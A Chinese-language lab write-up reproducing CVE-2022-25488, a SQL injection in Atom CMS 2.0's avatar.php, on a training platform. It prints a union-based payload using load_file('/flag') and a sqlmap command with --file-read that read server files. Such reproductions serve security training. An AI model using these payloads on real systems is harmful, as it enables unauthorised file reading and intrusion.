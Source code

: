 ```yaml
---
title: CVE-2022-25488【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

- tom CMS是一个内容管理系统。

- Atom CMS 2.0版本 存在安全漏洞，

- 该漏洞源于通过`/admin/ajax/avatar.[**php**](https://it.cha138.com/php/)`中的 `id 参数`发现 存在 SQL 注入漏洞。

- Atom CMS v2.0 通过`/admin/ajax/avatar.php`中的 `id 参数`被发现包含 SQL 注入漏洞。

## 2. 影响版本

Atom CMS 2.0版本

## 3. 漏洞复现

### 3.1. 手动注入

- 开启环境后，加上`/admin/ajax/avatar.php`直接访问发现页面空白的

```ad-tip
title:URL
collapse:open
 http://eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php
```

- 查看源码

![CVE-2022-25488-Picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-1.jpg)

- 由于 `id` 参数存在注入，所以添加 `id` 后观察是否有啥变化【变动如下】

![CVE-2022-25488-Picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-2.jpg)

- 尝试 `union` 注入测试

![CVE-2022-25488-Picture-3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-3.jpg)

- 既然存在 `union` 注入，进一步尝试 `load_file` 直接读取 `flag` 

```ad-tip
title: URL
collapse: open
view-source:eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=0 union select load_file('/flag')
```

- 结果

![CVE-2022-25488-Picture-4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-4.jpg)

### 3.2. sqlmap 注入

```ad-tip
title:sqlmap 注入命令
collapse:open
python sqlmap.py -u "http://eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" --file-read "/flag" --batch
```

![CVE-2022-25488-Picture-5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-5.jpg)
